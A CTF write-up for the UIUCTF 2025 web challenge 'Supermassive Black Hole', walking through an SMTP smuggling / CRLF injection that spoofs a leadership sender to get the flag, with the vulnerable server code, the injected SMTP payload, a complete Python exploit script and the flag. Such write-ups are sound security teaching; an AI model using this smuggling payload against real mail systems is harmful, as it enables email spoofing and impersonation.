 ```yaml
---
title: UIUCTF 25 - Supermassive Black Hole
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - CRLF injection
  - medium
authors:
  - Valenter
---
```

*Black Hole Ticketing Services prides itself on losing tickets at the speed of light. Can you get them to escalate?*

Welcome back to the second installment in this series of cyber-spacefaring challenges from uiuctf.

![Homepage](/uiuctf2025/supermassive-black-hole/screenshot-1.png)
Not as fancy as [*Ruler of the Universe*]({{< ref "posts/uiuctf25-ruler-of-the-universe/index.md" >}}), but far less dystopian than some real-world customer service centers.

The *About us* page contains some useful information, namely leadership@blackholeticketing.com, that will come in handy later.

![About-us](/uiuctf2025/supermassive-black-hole/screenshot-2.png)

## Dissecting the Event‑Horizon Mail Hub

There's an SMTP server running internally on port 1025, unfortunately, the port isn't exposed to us, so we can't interact with it directly:

`smtp_server.py`
```python
async def start_server():
    init_database()

    it_handler = ITBotHandler()
    controller = Controller(it_handler, hostname='localhost', port=1025)

    controller.start()

    return controller

async def main():
    controller = await start_server()

    try:
        while True:
            await asyncio.sleep(5)
    except KeyboardInterrupt:
        controller.stop()

if __name__ == "__main__":
    asyncio.run(main())
```

Luckily, though, we don't need to, the server does all the work for us, everything we type into the ticket submission form gets conveniently inserted into a pre-packaged `message` and relayed to the SMTP listener:

`web_server.py`
```python
        message_data = f"""\
From: support@blackholeticketing.com\r\n\
To: it@blackholeticketing.com\r\n\
Subject: {subject}\r\n\
X-Ticket-ID: {ticket_id}\r\n\
\r\n\
{message}\r\n\
.\r\n""".encode()

        ending_count = message_data.count(b'\r\n.\r\n')
        if ending_count != 1:
            raise ValueError("Bad Request")

        with smtplib.SMTP('localhost', 1025) as client:
            client.helo("example.com")
            client.sendmail('support@blackholeticketing.com', ['it@blackholeticketing.com'], message_data)
            # Wait a second for SMTP to process the ticket
            time.sleep(1)

        ticket_data = {
            'id': ticket_id,
            'timestamp': int(time.time() * 1000),
            'from': 'support@blackholeticketing.com',
            'subject': subject,
            'body': message,
            'status': 'submitted'
        }

        return render_template('ticket_submitted.html', ticket_data=ticket_data)
```

If we can somehow manage to change the sender address to leadership@blackholeticketing.com, and impersonate their star‑fleet commander‑in‑chief, the server will print out the flag for us.

`smtp_server.py`
```python
from_header = message.get('From', 'Unknown')
subject = message.get('Subject', 'No Subject')
body = str(message.get_payload())
ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')

if internal.leadership_email in from_header.lower():
    response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
elif internal.support_email in from_header.lower():
    response = "Request for support received! Will resolve after lunch break."
else:
    response = "Please use our support portal to submit a ticket."
```

Now, the Intergalactic Postal Center must suffer from the same understaffing and underpaying issues we have here on Earth, because somebody decided it would be a good idea to override every inherent safety function in the Python SMTP library:

```python
try:
    smtplib._fix_eols = return_unchanged
    smtplib._quote_periods = return_unchanged
    smtplib.SMTP.data = new_data
```

- **`_fix_eols`** normally converts `\n` into `\r\n` to follow the SMTP standard,
- **`_quote_periods`** does dot-stuffing (adds an extra period at the start of every line that begins with a period),
- **`SMTP.data`** was patched with `new_data`.

It instead only runs one check:

```python
ending_count = message_data.count(b'\r\n.\r\n')
if ending_count != 1:
    raise ValueError("Bad Request")
```
it counts the number of terminators and allows there to be only one, this is to prevent us from closing our message and crafting a new one inside the same input.
But since `fix_eols` is deactivated, this is vulnerable to **CRLF injection**.

## Examining the vulnerability

We can use `\n.\r\n`, a.k.a *LF‑dot‑CRLF*, to close our crafted message, the SMTP server will recognize a dot-only line as end-of-DATA, and everything that follows (`MAIL FROM:…`, `RCPT TO:…`, etc.) will be interpreted  as new SMTP commands.

#### The payload

```smtp
"\n.\r\n"
"MAIL FROM:<ceo@supermassive.inc>\r\n"
"RCPT TO:<it@blackholeticketing.com>\r\n"
"DATA\r\n"
"From: leadership@blackholeticketing.com\r\n"
"To: it@blackholeticketing.com\r\n"
"Subject: escalate\r\n"
"X-Ticket-ID: 1444\r\n"
"\r\n"
"pls fix asap\r\n"
".\n"
```
*Ticket-ID was added only for convenience and is not necessary for the final exploit*

Thus we add our own custom sender and receiver and pass the message on to the server.
#### Final script

```python
#!/usr/bin/env python3
import requests, time, textwrap

#BASE = "http://localhost:8080"
BASE = "https://inst-4e64969ec136b504-supermassive-black-hole.chal.uiuc.tf/"

payload = (
    "\n.\r\n"
    "MAIL FROM:<ceo@supermassive.inc>\r\n"
    "RCPT TO:<it@blackholeticketing.com>\r\n"
    "DATA\r\n"
    "From: leadership@blackholeticketing.com\r\n"
    "To: it@blackholeticketing.com\r\n"
    "Subject: escalate\r\n"
    "X-Ticket-ID: 1444\r\n"
    "\r\n"
    "pls fix asap\r\n"
    ".\n"
)

#injection ticket
requests.post(f"{BASE}/submit_ticket",
              data={"subject": "Outage", "message": payload})

#wait for the bot to process
time.sleep(2)


resp = requests.get(f"{BASE}/check_response/1444").json()
print(resp["response"])
```

**`uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`**

